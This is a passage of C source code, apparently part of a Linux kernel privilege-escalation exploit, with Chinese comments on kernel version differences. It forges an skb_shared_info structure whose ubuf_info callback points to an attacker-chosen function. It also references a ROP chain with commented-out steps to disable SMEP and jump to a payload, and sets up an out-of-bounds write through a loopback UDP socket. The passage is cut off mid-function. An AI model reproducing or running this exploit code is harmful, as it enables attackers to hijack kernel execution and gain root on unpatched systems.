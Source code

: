 ```c
	construct_rop(stack);
	/*CHAIN_SAVE_ESP;
	CHAIN_DISABLE_SMEP;
	CHAIN_JMP_PAYLOAD;*/
}

// * * * * * * * * * * * * * * Kernel structs * * * * * * * * * * * * * * * *

struct ubuf_info {
	uint64_t callback;	// void (*callback)(struct ubuf_info *, bool)
	uint64_t ctx;		// void *
	uint64_t desc;		// unsigned long
};
// v4.12.6 和 v4.8 不同: 成员的顺序不同，且 gso_type 长度不同
struct skb_shared_info {
	unsigned short	_unused;
	uint8_t nr_frags;	// unsigned char
	uint8_t tx_flags;	// __u8
	uint16_t gso_size;	// unsigned short
	uint16_t gso_segs;	// unsigned short
	uint64_t frag_list;	// struct sk_buff *
	uint64_t hwtstamps;	// struct skb_shared_hwtstamps
	unsigned int gso_type;	// unsigned short  !!!
	uint32_t tskey;		// u32
	uint32_t ip6_frag_id;	// __be32
	uint32_t dataref;	// atomic_t
	uint64_t destructor_arg; // void *
	uint8_t frags[16][17];	// skb_frag_t frags[MAX_SKB_FRAGS];
};

struct ubuf_info ui;

void init_skb_buffer(char* buffer, unsigned long func) {
	struct skb_shared_info* ssi = (struct skb_shared_info*)buffer;
	memset(ssi, 0, sizeof(*ssi));

	ssi->tx_flags = 0xff;
	ssi->destructor_arg = (uint64_t)&ui; // (uint64_t)&ui  0x6666666666666666
	ssi->nr_frags = 0;
	ssi->frag_list = 0;

	ui.callback = func; 	// func
}

#define SHINFO_OFFSET 3164				// change!!!!!   3164  3712

void oob_execute(unsigned long payload) {
	char buffer[4096];
	memset(&buffer[0], 0x42, 4096);
// 布置数据
	init_skb_buffer(&buffer[SHINFO_OFFSET], payload);

	int s = socket(PF_INET, SOCK_DGRAM, 0);
	if (s == -1) {
		perror("[-] socket()");
		exit(EXIT_FAILURE);
	}

	struct sockaddr_in addr;
	memset(&addr, 0, sizeof(addr));
	addr.sin_family = AF_INET;
	addr.sin_port = htons(8000);
	addr.sin_addr.s_addr = htonl(INADDR_LOOPBACK);
```
